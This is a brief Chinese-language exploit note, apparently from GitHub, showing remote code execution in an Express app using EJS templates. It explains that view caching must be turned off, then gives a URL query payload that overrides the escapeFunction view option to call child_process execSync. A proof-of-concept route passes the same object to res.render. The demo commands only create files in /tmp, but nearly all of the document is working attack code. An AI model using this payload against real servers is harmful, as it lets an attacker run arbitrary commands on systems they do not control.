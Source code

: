 模板渲染完成之后默认会 cache ，需要在 cache 之前注入代码，这里为了方便，把 cache 关了

```js
app.set('view cache', false);
```

# payload ：

```
?settings[view%20options][escapeFunction]=console.log;this.global.process.mainModule.require(%27child_process%27).execSync("touch /tmp/3.txt");&settings[view%20options][client]=true
```

# poc

```js
o = {
  "settings":{
    "view options":{
      "escapeFunction":'console.log;this.global.process.mainModule.require("child_process").execSync("touch /tmp/pwned");',
      "client":"true"
    }
  }
}

app.get("/test",function (req,resp){
  return resp.render("test",o);
})
```
